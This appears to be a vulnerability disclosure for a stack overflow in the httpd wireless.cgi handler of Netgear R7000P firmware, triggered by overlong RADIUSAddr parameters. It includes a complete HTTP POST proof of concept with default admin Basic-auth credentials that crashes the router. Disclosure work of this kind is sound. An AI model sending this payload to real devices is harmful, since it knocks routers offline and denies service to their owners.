

# Netgear Vulnerability

Vendor:Netgear

Product:R7000P

Version:1.3.3.154

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `wireless.cgi` function, `RADIUSAddr%d_wla、RADIUSAddr%d_wlg` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `RADIUSAddr%d_wla、RADIUSAddr%d_wlg` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `RADIUSAddr%d_wla、RADIUSAddr%d_wlg` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>


## PoC

We set `RADIUSAddr%d_wla` as **aaaaa......:** , and the router will crash, such as:

```http
POST /wireless.cgi?id=f5364d87b878961f416b61588d5fcd16cf71a0fd3fe464e8a8d28aa56ad738f0 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2546
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/WLG_wireless_dual_band_r10.htm
Upgrade-Insecure-Requests: 1

Apply=%E5%BA%94%E7%94%A8&WRegion=2&ssid_bc=ssid_24G_bc&enable_coexistence=enable_coexistence&ssid=NETGEAR37&w_channel=0&opmode=300Mbps&enable_tpc=1&security_type=WPA-ENTERPRISE&authAlgm=automatic&wepenc=1&wep_key_no=1&KEY1=&KEY2=&KEY3=&KEY4=&passphrase=rusticjungle040&encryptmode=2&wpa_en_gk_int=3600&RADIUSAddr1_wla=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&RADIUSAddr2_wla=168&RADIUSAddr3_wla=31&RADIUSAddr4_wla=10&wpa_en_radius_port=1812&wpa_en_radius_ss=pjqwudi&ssid_bc_an=ssid_5G_bc&ssid_an=NETGEAR37-5G&w_channel_an=153&opmode_an=HT80&enable_tpc_an=1&security_type_an=WPA2-PSK&authAlgm_an=automatic&wepenc_an=1&wep_key_no_an=1&KEY1_an=&KEY2_an=&KEY3_an=&KEY4_an=&passphrase_an=rusticjungle040&encryptmode_an=1&wpa_en_gk_int_wlg=3600&RADIUSAddr1_wlg=&RADIUSAddr2_wlg=&RADIUSAddr3_wlg=&RADIUSAddr4_wlg=&wpa_en_radius_port_wlg=1812&wpa_en_radius_ss_wlg=&tempSetting=0&tempRegion=5&setRegion=2&wds_enable=0&wds_enable_an=0&only_mode=0&show_wps_alert=0&security_type_2G=WPA-ENTERPRISE&security_type_5G=WPA2-PSK&gui_security_type_5G=&init_security_type_2G=WPA2-PSK&init_security_type_5G=WPA2-PSK&initChannel=0&initAuthType=automatic&initDefaultKey=0&initChannel_an=153&initAuthType_an=automatic&initDefaultKey_an=0&telec_dfs_ch_enable=1&ce_dfs_ch_enable=1&fcc_dfs_ch_enable=0&auto_channel_5G=1&support_ac_mode=1&board_id=U12H270T20_NETGEAR&fw_sku=SKU_WW&wla_radius_ipaddr=0.0.0.0&wlg_radius_ipaddr=0.0.0.0&wla_ent_secu_type=WPA-AUTO&wlg_ent_secu_type=WPA-AUTO&wan_ipaddr=192.168.31.95&wan_netmask=255.255.255.0&select_2g_tpc=1&select_5g_tpc=1&wifi_2g_enable=Enable&wifi_5g_enable=Enable
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
